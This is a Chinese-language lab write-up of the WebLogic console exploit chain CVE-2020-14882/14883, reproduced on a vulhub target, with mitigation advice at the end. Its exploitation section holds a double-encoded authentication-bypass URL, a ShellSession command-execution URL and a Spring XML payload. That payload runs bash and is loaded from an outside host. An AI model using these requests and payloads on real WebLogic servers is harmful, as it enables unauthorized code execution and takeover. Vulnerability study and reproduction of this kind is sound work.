





# 漏洞名称：Weblogic 管理控制台未授权远程命令执行漏洞

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

 Weblogic是Oracle公司推出的J2EE应用服务器，Oracle WebLogic Server 多版本的Oracle Fusion Middleware 存在安全漏洞，该漏洞使未经身份验证的攻击者可以通过HTTP访问网络，从而破坏Oracle WebLogic Server。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

参考链接：

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

------

### 漏洞危害

远程代码执行漏洞 （CVE-2020-14882）POC 已被公开，未经身份验证的远程攻击者可通过构造特殊的 HTTP GET 请求，结合 CVE-2020-14883 漏洞进行利用，利用此漏洞可在未经身份验证的情况下直接接管 WebLogic Server Console ，并执行任意代码，利用门槛低，危害巨大。

------

### 影响范围

* weblogic 10.3.6.0.0
* weblogic 12.1.3.0.0
* weblogic 12.2.1.3.0
* weblogic 12.2.1.4.0
* weblogic 14.1.1.0.0

------

## 漏洞利用


---

### 靶机环境

vulhub/weblogic/CVE-2020-14882


---

### 利用方法1

**探测确认**

使用 weblogicScanner(https://github.com/0xn0ne/weblogicScanner)探测是否存在该漏洞

```
python3 ws.py -v CVE-2020-14882 -t 192.168.1.189:7001
```



首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```



成功登录到后台页面。

虽然利用漏洞CVE-2020-14882成功登录到后台页面，但当前用户是低权限用户，并不能执行命令。此时需要用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下URL，即可利用com.tangosol.coherence.mvel2.sh.ShellSession执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```



页面显示404，回到服务器端执行如下命令登录到容器里面

```
docker exec -i -t 容器id /bin/bash
```



可以看到success1成功创建，命令执行成功。

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。

### 利用方法2

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://10.82.234.169:8000/rce.xml")
```



这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。

------

## 威胁防护建议

1. Oracle官方最新漏洞修复补丁；
2. 临时关闭后台/console/console.portal的对外访问

